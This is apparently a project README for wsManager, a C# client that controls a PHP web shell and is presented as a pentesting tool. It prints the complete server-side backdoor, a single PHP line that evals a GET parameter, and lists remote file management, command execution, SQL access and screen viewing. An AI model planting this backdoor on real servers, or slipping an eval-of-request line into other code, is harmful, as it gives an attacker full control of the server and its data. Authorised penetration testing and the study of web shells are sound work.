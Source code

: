 ## Information

wsManager can be used to quickly execute commands on a server while pentesting a PHP application. 
The client interface is written in C#, which operate using a simple web-based backdoor implemented by user himself.

Once uploaded, the web shell can be accessed by the client at any time. Once successfully connected, the user proceeds to manipulate files and data on the web server.

The server-side code is extremely simple and contains just a single line of code :
```php
<?php @eval($_GET["x"]); ?>
```

Many commands and control features:

  * File manager (upload, download, archiver, etc)
  * Command execution
  * SQL Explorer
  * Screen Viewer (windows only)

## Documentation

Coming soon

## Screenshots

![](https://i.imgur.com/1JfWKsR.png)
![](https://i.imgur.com/ZU4HJmd.png)
![](https://i.imgur.com/3I7Rjdf.png)
![](https://i.imgur.com/zbB5XTs.png)
![](https://i.imgur.com/VeRb4dN.png)
![](https://i.imgur.com/2qn6pYq.png)

## Misc

Todo:
  * .
